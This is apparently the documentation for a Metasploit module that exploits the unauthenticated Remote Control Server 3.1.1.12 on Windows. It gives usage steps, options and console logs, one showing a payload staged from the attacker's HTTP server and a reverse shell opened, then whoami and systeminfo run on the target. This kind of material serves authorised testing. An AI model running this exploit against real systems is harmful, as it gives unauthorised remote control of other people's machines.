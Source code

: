 ## Vulnerable Application

This module utilizes the Remote Control Server's, part
of the Remote Control Collection by Steppschuh, protocol
to deploy a payload and run it from the server.  This module will only deploy
a payload if the server is set without a password (default).
Tested against 3.1.1.12, current at the time of module writing

Version 3.1.1.12 can be downloaded from http://remote-control-collection.com/
    
## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/windows/misc/remote_control_collection_rce`
4. Set `rhost` and `lhost` as required.
5. Do: `run`
6. You should get a shell as the user who is running Remote Mouse.

## Options

### PATH

The location to write the payload to
Defaults to `c:\\Windows\\Temp\\`.

### SLEEP

The length of time, in seconds, to sleep between each command. This gives the remote program time to process the command on screen.
Defaults to `1`.

## Scenarios

###  Remote Control Server 3.1.1.12 on Windows 10

```
resource (remote_mouse.rb)> use exploits/windows/misc/remote_mouse_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (remote_mouse.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (remote_mouse.rb)> set lhost 2.2.2.2
lhost => 2.2.2.2
resource (remote_mouse.rb)> set verbose true
verbose => true
msf6 exploit(windows/misc/remote_mouse_rce) > run

[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] 1.1.1.1:1978 - Running automatic check ("set AutoCheck false" to disable)
[+] 1.1.1.1:1978 - The target appears to be vulnerable. Received handshake with version: 411
[*] 1.1.1.1:1978 - Connecting
[*] 1.1.1.1:1978 - Sending Windows key
[*] 1.1.1.1:1978 - Opening command prompt
[*] 1.1.1.1:1978 - Sending stager
[*] 1.1.1.1:1978 - Using URL: http://2.2.2.2:8080/
[+] 1.1.1.1:1978 - Payload request received, sending 73802 bytes of payload for staging
[+] 1.1.1.1:1978 - Payload request received, sending 73802 bytes of payload for staging
[*] 1.1.1.1:1978 - Executing payload
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 1.1.1.1
[*] Command shell session 1 opened (2.2.2.2:4444 -> 1.1.1.1:49962) at 2022-09-27 16:33:02 -0400
[*] 1.1.1.1:1978 - Server stopped.
[!] 1.1.1.1:1978 - This exploit may require manual cleanup of 'c:\Windows\Temp\NADYvmtxr.exe' on the target


Shell Banner:
Microsoft Windows [Version 10.0.16299.125]
-----
          

C:\Users\windows>whoami 
whoami
win10prolicense\windows

C:\Users\windows>systeminfo
systeminfo

Host Name:                 WIN10PROLICENSE
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.16299 N/A Build 16299
```

###  Remote Control Server 3.1.1.12 on Windows 10, with a password

Expected to fail.

```
resource (remote_control_collection.rb)> use exploits/windows/misc/remote_control_collection_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (remote_control_collection.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (remote_control_collection.rb)> set lhost 2.2.2.2
lhost => 2.2.2.2
resource (remote_control_collection.rb)> set verbose true
verbose => true
msf6 exploit(windows/misc/remote_control_collection_rce) > exploit

[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] Connecting and Sending Windows key
[*] Opening command prompt
[*] Sending stager
[*] Using URL: http://2.2.2.2:8080/
[*] Executing payload
[*] Server stopped.
[!] This exploit may require manual cleanup of 'c:\Windows\Temp\OqsTi76PX80it.exe' on the target
[*] Exploit completed, but no session was created
```
